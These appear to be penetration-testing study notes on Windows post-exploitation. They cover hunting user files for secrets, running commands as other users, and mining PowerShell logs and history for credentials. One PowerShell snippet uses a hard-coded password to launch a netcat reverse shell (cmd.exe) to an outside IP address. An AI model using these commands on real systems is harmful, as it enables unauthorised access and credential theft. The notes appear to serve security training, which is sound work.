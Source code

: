 Useful files to look out for:
- application-specific files (refer to interesting found applications from above section)
	- E.g. password manager database files (.kdbx), XAMPP config files
- certain files in home directory of user (.txt, .pdf, .xls, .xlsx, .doc, .docx)
  `Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue`
- files in AppData directory of user (it is hidden directory and not searched by default)
	- E.g. `RDCMan.settings`

Run program as a different user:
`runas /user:backupadmin cmd`
- Need a GUI to use this! (In other words, need access to a user account with remote desktop privileges) Because it doesn't accept our input in commonly used shells (e.g. bind shell, WinRM)
Non-GUI (powershell):
```powershell
$secpasswd = ConvertTo-SecureString "N0cturn@l21" -AsPlainText -Force 

$mycreds = New-Object System.Management.Automation.PSCredential ("juggernaut.local\cmarko", $secpasswd) 

Start-Process -FilePath powershell.exe -argumentlist "C:\temp\nc.exe 172.16.1.30 443 -e cmd.exe" -Credential $mycreds
```
Non-GUI tool: https://github.com/antonioCoco/RunasCs
- `import-module .\Invoke-RunasCs.ps1`
- `Invoke-RunasCs [username] [password] [command]`

Ways to access system as another user:
- WinRM or RDP: if the user is a member of the corresponding groups
- schedule a task to execute a program of our choice as this user: if the target user has *Log on as a batch job* access right
- PsExec from Sysinternals: if target user has an active session

## Information Goldmine PowerShell

PowerShell logging mechanisms:
- [PowerShell Transcription](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.host/start-transcript?view=powershell-7.4)
	- "over the shoulder transcription"
	- info saved in transcript files (often saved in home directories of users, a central directory for all users of a machine, or a network share collecting the files from all configured machines)
- [PowerShell Script Block Logging](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.2)
	- records commands and blocks of script code as events while executing
	- contains the original representation of encoded code or commands
	- Event Viewer -> Applications and Services Logs -> Microsoft -> Windows -> Powershell -> Operational

Check PowerShell history of user:
`Get-History`
- Cleared by `Clear-History`

Get PSReadline history file location:
`(Get-PSReadlineOption).HistorySavePath`
- not affected by `Clear-History`
